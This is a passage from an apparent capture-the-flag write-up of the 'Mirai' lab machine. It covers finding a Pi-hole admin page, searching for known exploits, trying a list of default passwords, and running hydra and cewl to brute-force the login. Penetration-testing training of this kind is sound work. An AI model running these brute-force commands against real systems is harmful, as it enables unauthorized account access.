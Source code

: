 The interesting part is /admin :

![Website admin page](/assets/imgs/mirai/website_admin.PNG)

This is the interface of a Pi-Hole. Let's seee if there is known exploit :

![Searchsploit Pi-Hole](/assets/imgs/mirai/searchsploit.PNG)

I need credentials to use the RCE ! I tried to connect with default passwords :

- administrator
- root
- toor
- Pi-hole
- pi-hole
- admin
- mirai

Try brute force with hydra :

```
hydra -l admin -P /home/liodeus/wordlist/rockyou.txt 10.10.10.48 http-post-form "/admin/index.php?login:pw=^PASS^:Wrong password" -Vv
```

Generate a wordlist from the words on the website :

```
cewl -m 4 --with-numbers -w dictiFromWebsite http://10.10.10.48/admin/
```
